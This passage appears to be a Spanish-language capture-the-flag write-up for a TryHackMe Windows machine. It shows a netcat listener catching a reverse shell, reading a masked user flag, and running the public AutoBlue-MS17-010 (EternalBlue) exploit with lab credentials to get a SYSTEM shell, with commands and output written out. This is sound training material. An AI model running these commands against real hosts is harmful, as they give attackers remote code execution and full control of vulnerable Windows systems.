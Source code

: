 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.95.131] 49811
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Inmediatamente obtenemos una shell como usuario `defaulttapppool`. En este punto ya podemos leer la flag del usuario ubicada en la ruta `c:\Users\Bob\Desktop`.

```bash
c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346k****************}
```

### Eternal Blue - AutoBlue-MS17-010

Como la máquina víctima tiene la vulnerabilidad MS17-010 que detectamos en el análisis de vulnerabilidades, podemos usar el script [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) para explotar esta vulnerabilidad.

Según las indicaciones en el repositorio de GitHub, para obtener una shell como `SYSTEM` hay que indicar la dirección IP de la máquina víctima, el puerto SMB y las credenciales válidas para autenticarse.

Entonces empezaremos clonando el repositorio.

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
```

Para que el exploit tenga éxito, es necesario utilizar los siguientes parámetros:

- `target-ip` — para especificar la dirección IP de la máquina Windows vulnerable
- `port` — para especificar el puerto SMB en uso
- Las credenciales para conectarse con un usuario especifico, en este caso utilizando las credenciales del usuario `bob`.

Nos dirigimos al repositorio clonado y ejecutamos el exploit con los parámetros previamente mencionados.

```bash
❯ python zzz_exploit.py -target-ip 10.10.95.131 -port 445 'bob:!P@$$W0rD!123@10.10.95.131'
[*] Target OS: Windows Server 2016 Standard Evaluation 14393
[+] Found pipe 'netlogon'
[+] Using named pipe: netlogon
[*] Target is 64 bit

[...]

[+] success controlling groom transaction
[*] modify trans1 struct for arbitrary read/write
[*] make this SMB session to be SYSTEM
[*] overwriting session security context
[*] have fun with the system smb session!
[!] Dropping a semi-interactive shell (remember to escape special chars with ^) 
[!] Executing interactive programs will hang shell!
C:\Windows\system32>whoami
nt authority\system
```
